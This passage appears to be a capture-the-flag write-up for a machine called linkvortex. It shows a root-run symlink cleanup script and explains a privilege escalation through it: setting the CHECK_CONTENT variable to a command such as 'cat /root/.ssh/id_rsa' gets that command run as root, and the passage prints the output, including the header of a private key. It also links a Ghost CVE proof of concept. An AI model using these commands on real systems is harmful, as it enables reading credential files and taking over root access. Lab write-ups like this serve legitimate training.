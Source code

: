 ```

if /usr/bin/sudo /usr/bin/test -L $LINK;then
  LINK_NAME=$(/usr/bin/basename $LINK)
  LINK_TARGET=$(/usr/bin/readlink $LINK)
  if /usr/bin/echo "$LINK_TARGET" | /usr/bin/grep -Eq '(etc|root)';then
    /usr/bin/echo "! Trying to read critical files, removing link [ $LINK ] !"
    /usr/bin/unlink $LINK
  else
    /usr/bin/echo "Link found [ $LINK ] , moving it to quarantine"
    /usr/bin/mv $LINK $QUAR_DIR/
    if $CHECK_CONTENT;then
      /usr/bin/echo "Content:"
      /usr/bin/cat $QUAR_DIR/$LINK_NAME 2>/dev/null
    fi
  fi
fi
```
- initially i thought i need to create a double symbolic link file to point to the `/root/.ssh/id_rsa` as there is a safeguard for reading files in /etc and /root
- however it did not work but a variable caught my attention
- the nested else statement is checking `$CHECK_CONTENT`, the way the if statement is written will not only check for true or false but also execute anything inside the `$CHECK_CONTENT` variable 
- we can inject a command and it will be run as root 
```
## declare $CHECK_CONTENT in shell
## can display root's id_rsa ssh secret key
$: export CHECK_CONTENT="cat /root/.ssh/id_rsa"
## or 
## display the root.txt directly
$: export CHECK_CONTENT="cat /root/root.txt"
## create a symbolic link file as its require by the script
$: ln -s /home/bob/user.txt id_rsa.png
bob@linkvortex:~$ sudo /usr/bin/bash /opt/ghost/clean_symlink.sh *.png
/opt/ghost/clean_symlink.sh: line 5: [: cat: binary operator expected
Link found [ id_rsa.png ] , moving it to quarantine
-----BEGIN OPENSSH PRIVATE KEY-----
<snip>
```
#### Resources
- found another POC for Ghost CVE-2023-40028: https://github.com/godylockz/CVE-2023-40028/tree/main (this might work, did not test as time of writing) 
- file used to scan for vhost(on Kali): `/usr/share/amass/wordlists/bitquark_subdomains_top100K.txt`



#### Lesson Learned
